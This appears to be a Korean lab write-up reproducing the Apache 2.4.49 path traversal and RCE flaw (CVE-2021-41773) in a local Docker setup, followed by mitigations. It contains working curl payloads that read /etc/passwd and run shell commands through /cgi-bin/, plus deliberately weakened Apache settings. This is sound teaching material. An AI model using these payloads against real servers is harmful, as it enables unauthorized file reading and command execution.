


# CVE-2021-41773

> Apache HTTP Server 2.4.49 경로 순회 및 원격 코드 실행
> [김용성(5105)]

<br/>

### 요약

Apache HTTP Server 2.4.49 한 버전에만 있는 경로 처리 버그다. Apache는 URL을 실제
파일 경로로 바꾸기 전에 `../` 같은 상위 디렉터리 이동을 걸러내는데, 2.4.49에서는
점을 퍼센트로 인코딩한 `%2e`를 놓친다. 그래서 `.%2e/`를 끼워 넣으면 검사를 통과한
뒤 서버 안에서 `../`로 풀려 문서 루트 밖으로 빠져나갈 수 있다.

이 우회는 Alias나 ScriptAlias로 연결된 경로를 지날 때 성립한다. 일반 Alias인
`/icons/`를 지나면 대상 파일을 그대로 읽고, ScriptAlias인 `/cgi-bin/`을 지나면
대상이 실행되기 때문에 `/bin/sh`까지 돌릴 수 있다. 뒤쪽이 곧 원격 코드 실행(RCE)이다.
로그인 같은 인증이 전혀 필요 없고 요청 한 번이면 된다.

| 항목 | 내용 |
|---|---|
| 대상 | Apache HTTP Server 2.4.49 |
| 유형 | 경로 순회(CWE-22), 임의 파일 읽기 / 원격 코드 실행 |
| 조건 | 인증 불필요, 원격 |
| CVSS 3.1 | 9.8 Critical (NVD 주 평가, CGI를 통한 RCE 영향 포함). 파일 읽기만 보면 7.5 High |
| 패치 | 2.4.51 이상. 2.4.50은 우회 가능(CVE-2021-42013) |

<br/>

### 환경 구성

공식 이미지 `httpd:2.4.49`를 그대로 가져와 취약해지는 설정만 최소로 바꿨다. 미리
만들어진 취약 이미지를 받아 쓰지 않으므로 `docker compose`만으로 끝난다.

- `Dockerfile` : httpd:2.4.49에 취약 설정 적용
- `docker-compose.yml` : 8080 포트로 노출
- `poc.sh` : 공격 두 개를 한 번에 실행

```
docker compose up -d --build
```

띄운 뒤 `http://localhost:8080/`에 들어가면 Apache 기본 페이지(It works!)가 보인다.
참고로 윈도우 PowerShell에서는 `curl`이 다른 명령의 별칭이라, 아래 예시처럼 반드시
`curl.exe`로 불러야 한다.

<br/>

### 취약 조건

CVE-2021-41773 자체가 성립하려면 다음이 필요하다.

1. Apache 버전이 정확히 2.4.49 (이 버전에서만 나오는 버그다)
2. Alias나 ScriptAlias로 연결된 경로가 존재
3. 그 Alias 바깥 경로가 접근 제어(`Require all denied`)로 막혀 있지 않음
4. RCE까지 가려면 해당 경로에 CGI 실행이 켜져 있어야 함

이번 실습 환경에서는 위 조건을 이렇게 만들었다(`Dockerfile` 참고).

- `<Directory />`를 `Require all granted`로 열어 3번을 충족했다. 편의상 루트 전체를
  열었지만, 원리상으로는 공격 대상이 되는 바깥 경로만 열려 있어도 조건은 성립한다.
- `cgid` 모듈을 켜서 4번을 충족했다. 이 이미지는 멀티스레드(event) MPM이라 `mod_cgid`를
  쓴다. prefork나 윈도우 환경이라면 `mod_cgi`가 대신 쓰인다.
- `/icons/` Alias를 추가해 2번(파일 읽기용 경로)을 마련했다.

<br/>

### 재현 절차

1. `docker compose up -d --build`로 환경을 올린다.
2. `http://localhost:8080/`이 200을 돌려주는지 확인한다.
3. 경로 순회로 `/etc/passwd`를 읽는다.
4. `/cgi-bin/`으로 명령을 실행한다.

curl에는 `--path-as-is`를 꼭 붙인다. 안 붙이면 curl이 요청을 보내기 전에 `../`를 먼저
정리해버려서 공격이 서버까지 가지 않는다. 여기서 제일 자주 막힌다.

컨테이너가 실제로 취약한 상태로 떴는지는 아래로 확인할 수 있다.

```
docker exec apache-2449 httpd -v
docker exec apache-2449 httpd -M | grep -E "cgi|alias"
```

버전이 2.4.49이고 `cgid_module`, `alias_module`이 로드돼 있으면 된다.

<br/>

### PoC 코드

경로 순회로 파일 읽기

```
curl.exe -s --path-as-is "http://localhost:8080/icons/.%2e/.%2e/.%2e/.%2e/etc/passwd"
```

원격 명령 실행

```
curl.exe -s --path-as-is --data "echo Content-Type: text/plain; echo; id; whoami; cat /etc/os-release" "http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh"
```

CGI 프로그램은 유효한 응답 헤더와, 헤더와 본문을 구분하는 빈 줄을 먼저 출력해야
한다. 그래서 페이로드 앞에 `Content-Type` 헤더와 빈 줄(`echo Content-Type: text/plain; echo;`)을
붙였다.

리눅스나 WSL, Git Bash에서는 같은 폴더의 `poc.sh`로 두 개를 한 번에 돌릴 수 있다.

```
chmod +x poc.sh
./poc.sh
```

<br/>

### 실행 결과

경로 순회로 문서 루트 밖의 `/etc/passwd`가 그대로 읽힌다.



`/cgi-bin/`을 지나 `/bin/sh`를 실행시키면 `id`, `whoami`, `cat /etc/os-release` 결과가
돌아온다. 서버에서 임의 명령을 실행할 수 있다는 뜻이다. 다만 명령은 Apache 프로세스
사용자(`whoami`로 보이는 `daemon`)와 컨테이너에 부여된 권한 범위 안에서 실행된다.



<br/>

### 대응 방안

- 가장 확실한 방법은 버전 업그레이드다. 2.4.51 이상으로 올린다. 2.4.50은 같은 버그가
  덜 고쳐져 CVE-2021-42013으로 다시 뚫리므로 건너뛴다.
- 문서 루트 밖 경로에는 `Require all denied`를 유지하고, 필요 없이 granted로 열지 않는다.
- 쓰지 않는 `mod_cgi` / `mod_cgid`와 `/cgi-bin/`은 꺼서 RCE 경로 자체를 없앤다.
- WAF나 프록시의 경로 정규화·탐지 규칙은 보조 수단으로 둔다. `%2e`나 `..` 문자열만
  막는 방식은 인코딩 변형으로 우회될 수 있어, 버전 업그레이드와 접근 제어가 우선이다.

<br/>

### 참고

- NVD, CVE-2021-41773 : https://nvd.nist.gov/vuln/detail/CVE-2021-41773
- Apache HTTP Server 2.4 보안 권고 : https://httpd.apache.org/security/vulnerabilities_24.html
- Apache CGI 문서(ScriptAlias 실행 특성) : https://httpd.apache.org/docs/2.4/howto/cgi.html
- CVE-2021-42013 (2.4.50 우회) : https://nvd.nist.gov/vuln/detail/CVE-2021-42013

<br/>

본 실습은 로컬 Docker 환경에서만 진행했으며, 허가받지 않은 외부 시스템에는 테스트하지
않았다. 확인이 끝나면 `docker compose down`으로 환경을 정리한다.
